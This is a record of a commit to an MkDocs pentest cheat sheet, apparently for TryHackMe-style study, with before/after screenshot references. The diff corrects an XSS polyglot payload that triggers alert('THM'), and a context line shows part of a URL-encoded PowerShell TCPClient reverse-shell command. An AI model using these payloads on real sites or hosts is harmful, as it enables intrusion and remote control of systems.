

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/PENTEST_CHEAT_SHEET.md, in a window 1280 px wide and 900 px high, scrolled down 5621 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6495 px from its top, so only the background shows below that.

Commit message:
Correction XSS payload

```diff
--- a/docs/PENTEST_CHEAT_SHEET.md
+++ b/docs/PENTEST_CHEAT_SHEET.md
@@ -209,7 +209,7 @@ powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient
 ## XSS
 
 **XSS Polyglot Payload**
-jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
+`jaVasCript:/*-/*'/*'/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e` (Remplacer les ' par \`)
 
 ## Injection de commande
 
```
